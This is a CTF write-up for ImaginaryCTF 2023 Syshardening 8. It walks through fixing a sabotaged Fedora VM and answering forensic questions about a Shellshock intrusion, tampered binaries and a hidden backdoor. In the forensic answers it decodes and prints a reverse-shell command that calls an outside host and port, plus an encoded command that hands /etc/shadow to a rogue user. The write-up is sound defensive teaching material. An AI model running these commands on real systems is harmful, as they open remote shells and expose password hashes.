


# __ImaginaryCTF 2023 Syshardening 8 writeup__:
By: Vague (with thanks to Uvuvue, RJCyber, and my CTF team SPL [specifically Donkey and Brayden])
<br>
<br>

# The Challenge
We are given a virtual machine that needs hardening, there are 42 vulnerabilities each worth 1-3 points to add up to 100 points. At the beginning of the competition, you will need 100 points to get the flag. As the competition continues, every two hours the score needed to claim the flag will decrease by 1. This threshold will keep decreasing until the first team attains the flag. By the end of the competition, the needed points was 78.

***note that you start out with a vulnerability "Previous passwords are remembered" already being scored so you have 2 points** 

# Prerequisites
To solve this challenge, you will need to download VMware workstation 17 player. Install the .7z file linked to the challenge and extract this file. Upon extraction open up the .vmx file found within the extracted folder. Upon loading you will be booted up into a Fedora 38 virtual machine with a README file, Scoring Report file, and Forensic Question files on your desktop. This problem requires a multistep solution in which you are required to patch vulnerabilities and answer forensics questions on the image to reach 100. Each vulnerability patched gives a certain amount of points dependent on the difficulty of the vulnerability and each Forensic Question gives a standard 3 points. Upon loading, the first step in securing this image would be to read the ReadMe file on your desktop containing addition information regarding the challenge such as scenario specific configuration requirements.

# The Desktop
Once you've booted up, you can see a desktop containing 10 text files, Forensic Questions, which each contain a question and a spot for the answer. Each Forensic Question correctly answered gives you 3 points. You can also see a quick link to the README, an extremely important file containing scenario specific information that you must follow during your configuration of the machine. Along with this is your ScoringReport which displays the vulnerabilities you have gotten along with their point values and your total score. This image also contains links to root directories but this has little to do with the image and is not important. Here is what the README looks like: https://eth007.me/cypat/syshardening8/
<br><br>

# Fixing all the broken things
Before we get to the Forensics Questions and eventually the vulnerabilities, there is a lot of things that this image has broken that we must fix or mitigate the effect of so that we may more easily go through it.

## Terminal
When you try to open up the terminal, a key thing needed to secure this system, you are given a weird looking bash prompt that returns an error every time you try to run a command<br><br>
This is caused by a malicious Konsole profile set as the Default profile for our user running a malicious file /usr/bin/terminal that runs a command to print out a fake bash shell.
We can fix this issue by either:
* Switching to another user and changing our users Konsole profile to run /bin/sh
* Installing another terminal software

Due to it being much easier, I will just install *terminator*, a popular terminal that allows splitting the screen. To do this, open the Software Center application, type terminator in the search bar, scroll down until you see the application called terminator, and click install. <br><br>
Now simply click launch and you can run commands!

## Immutable files and chattr
If we run the command ```sudo find / -exec lsattr {} + 2>/dev/null | grep "\---i"```, we observe that many important files are immutable. If we try to change the attributes of any of these files with `chattr` we get put into that bash prompt that doesn't allow any commands to be executed.<br> <br>
You can easily upload a good version of chattr to fix this but an easier way I found was to just reinstall Konsole.
Just like with terminator, open the Software Center application, type konsole in the search bar, scroll down until you see the application called Konsole, and click install.<br><br>
Now that it is installed, chattr should work properly! To change the attributes of all the immutable files in one command, run:
```for i in $(sudo find /etc -exec lsattr {} + 2>/dev/null | grep "\---i" | awk '{print $2}');do sudo chattr -ia $i;done``` 
Now all we can write to all our important files!
<br><br>

## root's aliases 
If you try to run `ls` as root, you will see a train come across the screen, this is likely an alias set in root's .bashrc file.<br><br>
To fix this, open up /root/.bashrc in your favorite text editor, and remove the two aliases at the bottom. <br><br>
Now close and reopen your terminator terminal to make these changes go into effect.

**There are still more problems that need to be fixed but those aren't relevant now**

<br>

# Forensic Questions

## Forensics Question 1 correct (b8ac3e1c12235ec54580131a511f2c9a) - 3 pts

```text
Greetings, fellow seekers of knowledge! We beckon your expertise on a quest of utmost importance. Deep within the digital
realm, a hidden secret awaits our discovery. In the file /home/frodo/magic_cookie, a key of great significance lies
concealed, encoded in the enigmatic language of hex representation. As esteemed adventurers, it is your noble duty to
embark upon this quest, extracting the key from its cryptic confines. With unwavering determination and keen intellect,
reveal to us the hex-encoded representation of this sacred key. May your endeavors be blessed with success, as together
we unlock the secrets that await within the realms of Middle-earth's digital tapestry.

ANSWER:
```
After reading the question, It seems that we need to find the hex of some key stored in the file `/home/frodo/magic_cookie`
First I will read the contents of this file to hopefully get an idea of where I should start.<br><br>
This file contains the readable strings "MIT-MAGIC-COOKIE". After googling this string, we see a Stack Overflow question asking how "X11 authorization works". One of the answers leads us to know what we need to do.<br><br>
With this knowledge I will check my current user's(root) xauth file with the command `xauth`, I see that I am using the file `/root/.xauthSLVRP0` as my xauth key. We see in the Stack Overflow answer that you can view the key's hex representation with the command `list` inside of the `xauth` command. To solve this forensics question, I will copy the magical_cookie file to my xauth key file then run the xauth command to view the hex representation. 
<br>

<br>
Doing this gives us our answer, **b8ac3e1c12235ec54580131a511f2c9a**

<br>

## Forensics Question 2 correct (CVE-2014-6271) - 3 pts

```text
Alas! The dreadful news has reached our ears. The malevolent presence of the Dark Lord Sauron looms over us, for he has
insidiously infiltrated our very midst. Through his treacherous machinations, he has exploited a most ancient and forgotten
vulnerability to gain access to our sacred realm of the computer. Like a cunning serpent, he has slithered through the
digital shadows, utilizing this exploit as a nefarious key to breach our defenses. I beseech thee, wise one, to reveal
the knowledge of the initial Common Vulnerabilities and Exposures (CVE) identification that pertains to this wickedly
employed exploit. Only through such understanding may we begin to fathom the depths of his dark intentions and devise
a plan to thwart his maleficent schemes.

ANSWER: 
```
After reading this, It appears that an exploit was ran that breached our system. Considering our two attack vectors are SSH and HTTP and SSH has a very little attack surface compared to HTTP, I first check the boa logs.
After reading the logs in **/var/log/boa/access_log**, it appears that someone was Dirbusting the webserver. We can tell this by the user-agent starting with "DirBuster-0.12". 
<br><br>
Now Dirbuster only fuzzes directories with a wordlist and does not have the capability to run exploits. To find logs of a potential web exploit, I will search the file for lines that don't contain the Dirbuster User-Agent with the command `cat /var/log/boa/access_log | grep -v "DirBuster-0.12"`. Near the bottom of this output we see someone trying to make a GET request to the cgi binary 'system-info' along with some interesting User-Agent fields that contain commands...<br><br>
This is a very old and well-known exploit called Shell Shock. Looking up "shell shock http CVE", we get our answer **CVE-2014-6271**
<br><br>

<br>

## Forensics Question 3 correct (1689208527) - 3 pts

```text
With utmost urgency, we must embark upon a thorough investigation into the depths of this exploit that has beset us. As we
tread this treacherous path, let us not falter in our quest for knowledge. Nay, we shall leave no stone unturned and no log
unread in our relentless pursuit of the truth. Pray, enlightened beings, reveal unto us the elusive hour in Unix timestamp
form, when the sinister Sauron, with his malicious intent, exploited our machine. Only by unraveling the fabric of time itself,
represented in those cryptic numerical digits, shall we uncover the dark secret he concealed within the digital tapestry, and
thus forge a defense against his insidious advances. Arise, my companions, and let our combined wisdom shine like a beacon
amidst the shadows of uncertainty!

ANSWER:
```
So it looks like the answer is the time the exploit was ran against our machine in Unix timestamp format. This should be simple because we just saw a log of the exploit occurring with a timestamp. 
<br>
To solve this we will look at the first instance of Shell Shock in `/var/log/boa/access.log` then convert that human readable time (in GMT) to Unix timestamp format.
<br>
Run the command `cat /var/log/boa/access_log | grep "{ :; }" | head -n 1` to get the first instance of the threat actor exploiting Shell Shock, take the timestamp `[13/Jul/2023:00:35:27 +0000]` and convert it to Unix timestamp on a online Unix timestamp converter.
<br>

<br>
Thus we get our answer **1689208527**

<br>

## Forensics Question 4 correct (42123) - 3 pts
```text
Ah, the knowledge we seek grows ever more profound! Tell me, in the wake of Sauron's insidious exploit and the planting of his
initial payload, which port does his wicked reverse shell employ? This vital piece of information shall unveil the path through
which his malicious influence infiltrates our digital domain. With our collective wisdom and the power of discernment, we shall
decipher this enigma, unmasking the port that binds Sauron's dark machinations to our noble system. Let our minds unite, valiant
companions, and shed light upon the shadows that cloak his malevolence, for in doing so, we shall fortify our defenses and stand
steadfast against the forces of darkness.

ANSWER:
```
It appears all we need to do is find the port that the threat actor uses in reverse shells and to bind to our system. There are many ways we can find this but we can continue the trend of using the boa logs.
<br>
To gain access to our system with Shell Shock, the threat actor must have sent a reverse shell. Lets examine the commands ran by our threat actor. Again, run the command `cat /var/log/boa/access_log | grep "{ :; }"` to view the commands.
<br>
Reading the status codes of the requests, we see that the final Shell Shock had a status code of `0`. This means that the HTTP request did not complete, AKA it hung...<br>
We can assume this means that the threat actor got a successful reverse shell and thus the web request hung. 
<br>
The command associated with this request is base64 decoding an encoded string then running it with bash. To examine the command bash is running we will base64 decode this string.
<br><br>
By running the command `echo L2Jpbi9zaCAtaSA+JiAvZGV2L3RjcC9ldGgwMDcubWUvNDIxMjMgMD4mMQo= | /bin/base64 -d` to base64 decode the string, we see the reverse shell ran by the adversary. Common `/bin/sh` reverse shells follow the format `/bin/sh -i >& /dev/tcp/IP_OF_ATTACKER/PORT_OF_ATTACKER 0>&1`
<br>
<br>
Following the format, the reverse shell `/bin/sh -i >& /dev/tcp/eth007.me/42123 0>&1` utilizes the port **42123** which is the answer to the forensics question.

<br>

## Forensics Question 5 correct (/usr/lib/nenya) - 3 pts
```text
I bring grave tidings, for within the realms of this system, a file harbors the vulnerability of plaintext passwords. The very
essence of security is at stake. Pray, reveal unto us the absolute path that governs this perilous file, so that we may tread
cautiously and shield these delicate secrets from the prying eyes of malevolent forces. With vigilance and fortitude, let us
ensure the safeguarding of sensitive information, preserving the sanctity of our digital realm and fortifying our defenses
against the lurking shadows of cyber threats.

ANSWER: 
```
This Forensics Question simply asks to find the file that exposes plaintext passwords (of assumedly the users on the system).
<br>
We are only given one password in the ReadMe, `Pa$$w0rd10`, so we will search the file system for this string.
<br>
Because grepping the entire filesystem (`/`) can take an impossibly long time, we will take the more structured approach of grepping individual root directories. 
<br>
We will do this by running the command `grep -rl "Pa\$\$w0rd10" /DIR`. This will recursively grep (grep -r) for the string `Pa$$w0rd10` (Remember, escaping the special characters is crucial and won't work if you don't) in the directory `/DIR` and prints out the full path of a file that contains that string (-l).
<br>
Running this through common root directories eventually lands us with a hit on "/usr"
<br>

<br>
Analyzing this file, we see that it is very obviously the plaintext password file we are searching for, making the answer to the Forensics Question **/usr/lib/nenya**

<br>

## Forensics Question 6 correct (1209234) - 3 pts
```text
The treacherous Saruman, in his pursuit of malevolent knowledge, sought to exploit a vulnerability within the noble Boa web
server. In his nefarious efforts to aid Saruman's future exploits, the vile Sauron, with his twisted machinations, meddled
with a key variable that wields influence over the very essence of Boa's operation. Pray, reveal unto us the altered value
to which this variable was tampered, for within its tainted state lies the secret that binds Saruman's dark designs to the
heart of our digital realm. Through our collective wisdom and tireless perseverance, let us restore the integrity of this
variable and ensure the noble Boa web server remains fortified against the forces of darkness that seek to exploit it.

ANSWER: 
```
As it may be to many of you, this forensics question confused me when I first tried tackling it, so lets break it down. There is some variable that was tampered with or changed that effects the "operation" of the boa web server. This could mean a boa configuration change, but it seems to be more likely referring to changing another file that runs or has influence over the boa binary. It seems that the answer to the forensics question is the value of the variable that was changed. 
<br>
The "/etc" directory contains most of the configuration and other important files on the file system. We will start by searching the "/etc" directory for any file that contains the word boa and looking for something out of the ordinary.
<br>
After running the command `grep -rl "boa" /etc/`, we see that the file "/etc/crontab" contains the word boa. This is interesting because crontab runs binaries at a specific time or event. This ability to run the boa web server is exactly what we are looking for.
<br>
<br>
Upon analyzing this file, we see that upon reboot, root runs the boa binary. Looking at the variables that set the context of the crontab file, we see an interesting value, `GLIBC_TUNABLES=glibc.malloc.mxfast=1209234`, `glibc.malloc.mxfast` is a glibc tunable that affects how fast memory is allocated during certain operations. Because this is set to a very high number, it might lead to excessive memory allocation speed, which could potentially cause resource exhaustion or facilitate certain memory exploitation attacks.
<br><br>
Because setting the value of this variable to a high number like "1209234", it makes the answer to our forensics question **1209234**

<br>

## Forensics Question 7 correct (melkor) - 3 pts

```text
Behold, fellow seekers of truth! A dire discovery has come to pass—the very fabric of a key system binary has been tampered
with. Though the mischievous hand that wrought this disturbance has since departed, a lingering enigma remains: What is the
elusive username of the user responsible for the creation of this deceitful contrivance? Together, let us delve into the
annals of our digital realm, unraveling the threads of history and unlocking the secrets that lie dormant within the code.
With steadfast resolve and keen insight, we shall unmask the identity of this elusive figure, ensuring that justice be served
and the foundations of our noble system restored to their rightful state.

ANSWER: 
```
So this forensics question is pretty straight forward. There is an important system binary that has been tampered with and we somehow must find the deleted user that tampered with it. Lets take it one step at a time. 
<br>
So in the earlier steps where we reinstalled Konsole to fix chattr, we inadvertently patched the binary for this Forensics Question. Because of this, we need to install a fresh image and do this forensics question on there. 
<br>
We will be following the second fix to the Konsole terminal discussed earlier as to not patch this binary. To do this, logout of the frodo user on a fresh vm and login as another user (I chose merry), Note: you can logout by pressing ctrl+alt+del and clicking "logout". Now that we are logged in to another user, run Konsole. You will notice that, while the theme of the terminal is different, we are still stuck in a fake bash shell. This is because, although we aren't bound to the theme of frodo anymore, there is an ld preload that checks if bash is in argv and if a certain environment variable set by konsole is present in the command that was injected into every single process running on the system, this includes child processes. So if it detects the env variable set by Konsole as well as the bash binary being ran, it spawns the fake terminal by running `python3 /usr/bin/terminal` (this is a side tangent, more on this later). 
<br>
To fix this, click settings in Konsole, manage profiles, new, then set the Command to /bin/sh. 
<br><br>
Click Ok and set the new profile, "Profile 1" as Default. Now reopen Konsole and we get a `sh` prompt that we can run commands on.
<br>
Now the hunt for this tampered binary begins!
<br>
We will first attempt to just run some common binaries and check to see if anything seems out of the ordinary.
<br>
When we attempt to run `cat` our shell gets filled with bash text that won't stop. Seems that we have found our tampered with binary!
<br>
<br>
Simply exit out of Konsole and go back in to fix this. Now since we can't `cat` the cat binary, lets inspect it with `strings`. <br>
We will run the command `strings /bin/cat | grep -v "^\.\|^_` to check the `cat` binary for strings that don't start with `.` or `_` , strings that are common in compiled binaries.
<br>
Scrolling through this we get an interesting line that appears to run a double base64 decoded string with bash (wonder where we saw hat before).
<br><br>
To inspect the command executed by bash, run the command `echo WTJodmQyNGdiV1ZzYTI5eU9tMWxiR3R2Y21BdlpYUmpMM05vWVdSdmR5QXlQaTlrW1hZdmJuVnNiQ0F4UGk5a1pYWXziblZzYkFvPQo= | base64 -d | base64 -d`
<br>
We see that the file `/etc/shadow`, which contains user hashes, is being changed to be owned by the user "melkor"
<br>

<br>
This makes the answer to our Forensics Question **melkor**


<br>

## Forensics Question 8 correct (/usr/share/cowsay/cows/fox.cow) - 3 pts

```text
Reveal unto us, with utmost clarity, the absolute path that conceals the tampered file of the beloved cowsay cow. In our
digital domain, where whimsy and mirth intertwine, this cherished companion has fallen victim to wicked tampering. With
steadfast determination and a resolute spirit, guide us towards the sacred location wherein the tampered cowsay cow file
resides. Through the illumination of this absolute path, we shall embark upon a restorative quest, mending the fractured
essence of this delightful bovine and reinstating its joyful presence to our digital abode. Share with us, valiant
companions, the absolute path that unlocks the gate to our restorative endeavors!

ANSWER: 
```
This Forensics Question is straightforward. The answer is the absolute path of a tampered cowsay cow file. 
<br>
To find all the cowsay cow files on the machine, we will search the filesystem for files with the extension ".cow"
<br>
To do this run the command `find / -iname "*.cow" 2>/dev/null`
<br>
 After running this command we observe that all the .cow files are in the default directory of `/usr/share/cowsay/cows/`
 <br>
 <br>
 Now you could approach finding the tampered with cowsay file a couple of ways. Firstly you could be lazy and manually search through them but considering there are 45 of them, I don't have the patience for that.
 <br>
 That leads me to the approach I'm going to take. First, I'm going to start up a fresh Fedora 38 machine, install cowsay, and compare these file names to ensure that none of them differ and that there are 45 cowsay files on the fresh machine too.
<br>
<br>
Now that we've verified that there is the same amount of cowsay files on both machines, instead of manually comparing the names, I will take the lazy approach and see if the filenames are the same character length.
<br> To do this, run the command `find / -iname "*.cow" 2>/dev/null | wc -c` on both systems.
<br>
After running this, we see that sure enough, both systems have (most likely) the same file names due to the output length being 1580 characters each.
<br>
Now our hand has been forced due to the fact that only an individual files contents has been tampered with. 
<br>
To find this, we will first check the lengths of each file on the fresh system and compare them to the lengths of each file on the compromised system.
<br>
To do this, run the command `ls -l /usr/share/cowsay/cows/ | awk '{print $9":"$5}` on the fresh fedora to get a list of `filename:length`.
<br><br>
Now we will convert this list into one line using the command `ls -l /usr/share/cowsay/cows/ | awk '{print $9":"$5} | sed 's/^://g' | grep . | tr -d '\n'` and check each line of the output of `ls -l /usr/share/cowsay/cows/ | awk '{print $9":"$5}` on the compromised system to see if any line is not contained in that list.
<br>
Now that already probably doesn't make any sense but the command to do this is even weirder. To do that, run the command `ls -l /usr/share/cowsay/cows/ | awk '{print $9":"$5}' | while IFS= read -r line; do echo "beavis.zen.cow:584blowfish.cow:639bud-frogs.cow:310bunny.cow:123cheese.cow:480cower.cow:230default.cow:175dragon-and-cow.cow:1284dragon.cow:1000elephant.cow:284elephant-in-snake.cow:295eyes.cow:585flaming-sheep.cow:490fox.cow:540ghostbusters.cow:1018head-in.cow:257hellokitty.cow:126kiss.cow:637kitty.cow:296koala.cow:162kosh.cow:406llama.cow:181luke-koala.cow:225mech-and-cow:756meow.cow:473milk.cow:439moofasa.cow:242moose.cow:203mutilated.cow:201ren.cow:252sheep.cow:234skeleton.cow:433small.cow:194stegosaurus.cow:854stimpy.cow:364supermilker.cow:280surgery.cow:892telebears.co^C333three-eyes.cow:293turkey.cow:1302turtle.cow:1105tux.cow:215udder.cow:392vader.cow:279vader-koala.cow:213www.cow:248telebears.cow:333" | grep -Fqv "$line" && echo "$line"; done`
<br>
This checks if each line in the format `filename:length` is not seen in the dump of all the benign `filename:length`'s
<br>
After running this, we get the output: <br>
<br>
Checking the non default file, we see that instead of a fox, it is a picture of Gollum from The Lord of The Rings<br><br>
This means the answer to the Forensics Question is **/usr/share/cowsay/cows/fox.cow**

## Forensics Question 9 correct (jctf{d0nt_believe_every_l0g_u_see}) - 3 pts

```text
Ah, the intrigue of a secret message beckons us! A cryptic revelation lies concealed within the depths of the DNF
(Dandified Yum) history, awaiting our discerning gaze. Pray, share with us the enigmatic message that has been left
behind, nestled amidst the annals of this storied repository. Through our collective wisdom and keen perception, we
shall unravel the veiled words, transcending the barriers of time and code to reveal the hidden truths that yearn
to be discovered. Let us embark upon this quest together, illuminating the path that leads to the heart of this
clandestine message, where enlightenment and revelation await our curious minds.

ANSWER: 
```
This Forensics Question is simple, we need to run the command `dnf history` to view the package install history and our answer should be there.
<br>
Now after trying to run this command, we see that "history" is not a valid dnf plugin and we see a picture of a wizard.
<br><br>
<br>
Instead of this being a problem with the history subcommand itself, it seems that dnf is broken.
<br>
To fix this we will simply reinstall dnf's packages manually with a combination of dnf and rpm.
<br>
To fix this, run the commands 
```bash
dnf download dnf --releasever 38
dnf download python3-dnf --releasever 38
dnf download dnf-data --releasever 38
rpm -i dnf-data-4.16.2-1.fc38.noarch.rpm 
dnf builddep python3-dnf --releasever 38
rpm -i python3-dnf-4.16.2-1.fc38.noarch.rpm 
rpm -i dnf-4.16.2-1.fc38.noarch.rpm 
dnf update
```
   and click "y" when prompted.
   <br>
   After doing this, we should be able to run any dnf command, including "dnf history"
   <br>

<br>
Doing this shows packages in CTF flag format, which makes our Forensics Question answer **jctf{d0nt_believe_every_l0g_u_see}**
   <br>


## Forensics Question 10 correct (/var/adm/power-manager) - 3 pts

```text
Behold, a foreboding revelation! A treacherous scheme has unfolded, for someone hath surreptitiously sown a hidden backdoor
within our digital realm. As I cast my discerning gaze upon the threads of this malicious design, a flicker of insight
emerges. Methinks this backdoor lurks in the domain of power management, concealing its presence amidst the very currents
that govern the flow of power within our digital abode. With the strength of our collective wisdom and the guiding light
of our shared purpose, we shall embark upon a quest to expose this hidden passage. Together, let us journey through the
labyrinth of code, unearthing the deceit that seeks to undermine our digital fortitude. Fear not, for the combined forces
of our vigilance shall banish this backdoor to the shadows whence it came, restoring the integrity and security of our
noble domain.

ANSWER: 
```
The 10th and final forensics question is asking us to find the location of a backdoored file that seemingly has to do with the power management service.
<br>

### Method 1 - Intended 

So the first thing I do is very simple, I will check for all files that contain the string "powermanagement".
<br>
To do this run the command `find / -iname "*powermanagement*" 2>/dev/null | grep -v ".mo"`
<br>
This searches the file system for filenames that contain the string "powermanagement" and removing the files that are machine object files from the output (grep -v '.mo')
<br><br>
There are a few files that get outputted but the first one jumps out.
<br>
It appears to be a config file that changes the power management settings for our user.
<br>

<br>
In this file, we see an interesting field called "RunScript" with an interesting variable called "scriptCommand". 
<br>We can assume that at runtime or on an event, it runs that script.... A perfect place for a hacker to inject a backdoor for persistence. 
<br><br>
After reading the file, it becomes abundantly clear that it is a backdoor calling out to our threat actor.
<br>
This means the answer to the forensics question is **/var/adm/power-manager**
<br>

### Method 2 - SPEEDRUN

In our previous method, we took the calm, calculated, *intended* approach. 
<br>
This second method is the faster and much easier way to do it.
<br>
In a previous Forensics Question and from previous forensic analysis, we already know the port, IP/Domain Name, and the reverse shell command of the hacker. 
<br>
We could realistically use any of these to do this, but because the threat actor used a domain name, which most likely won't change, and everything else previously mentioned could easily change, we will use that for this.
<br>
As you may have guessed, all we will do is search for the domain name base64 encoded. If this doesn't work we will look for it on its own, and if that doesn't work we will look for it double base64 encoded.
<br>
To do this we will first need to convert the string `eth007.me` to base64. To do this, simply run the command `echo -n "eth007.me" | base64`
<br>
Now we can start grepping the filesystem for this string with the command `grep -rl $(echo -n "eth007.me" | base64) /DIR`
<br>
Using the same methodology of before and searching through root filesystems, we eventually get a hit!
<br>
<br>
It triggers on the original Shell Shock payload as well as, what we can assume to be, the power management backdoor!!

<br>

